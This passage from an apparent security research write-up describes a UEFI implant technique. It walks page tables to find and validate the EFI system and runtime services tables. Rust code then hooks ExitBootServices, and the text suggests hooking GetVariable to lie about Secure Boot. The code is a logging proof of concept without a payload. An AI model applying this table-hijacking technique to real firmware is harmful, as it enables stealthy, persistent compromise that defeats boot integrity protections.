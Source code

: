 ### Hunting for Tables

EDK-2 maintains a pool of available pages which are allocated on demand. We
can search for these pages by walking the page-table. We use some criteria
to reduce false-positives and speed up the search by only considering
present pages and ignoring all pages above 4GB. Once we have found table
signatures, we try to validate the contents.

- For `EFI_RUNTIME_SERVICES`, we check whether `GetTime` and
`GetNextHighMonotonicCount` are above 1MB because our allocation can never
be in the legacy address range (this could be further improved to have an
upper-limit of TSEG).

- For `EFI_SYSTEM_TABLE`, we check that `gST->RuntimeServices` and
`gST->BootServices` are also above 1MB.

A final check validates that the tables are properly linked by checking that
the system table has a pointer to the runtime services table. If the
candidates pass these checks then we have found our tables which we can hook.

### Final Hooks

The hooks are straightforward to implement by overwriting table entries. The
reference implementation hooks `ExitBootServices` but a more interesting
target is `GetVariable` so we can lie about the presence of Secure Boot.

```c
fn locate_and_hook_tables() -> EfiStatus {
    if let Some((st, rt)) = unsafe { hunt_for_tables() } {
        info!("found referential pair of UEFI tables, all tables found");
        debug!("gST                  = {:p}", st);
        debug!("gST->RuntimeServices = {:p}", st.runtime_services);
        debug!("gST->BootServices    = {:p}", st.boot_services);
        unsafe {
            let bs = st.boot_services.as_mut().unwrap();
            info!("installing gBS->ExitBootServices hook");
            ORIG_EXIT_BOOT_SERVICES = bs.exit_boot_services;
            bs.exit_boot_services = exit_boot_services_hook;
            BS.write(bs); // permanent, this will not be relocated.
            RT.write(rt); // permanent, this will not be relocated.
            ST.write(st); // permanent, this will not be relocated.
        }
        EfiStatus::Success
    } else {
        EfiStatus::NotFound
    }
}

extern "efiapi" fn exit_boot_services_hook(img: Cptr, key: usize) -> EfiStatus {
    info!("DXE image has initiated ExitBootServices()");
    unsafe { ORIG_EXIT_BOOT_SERVICES(img, key) }
}
```
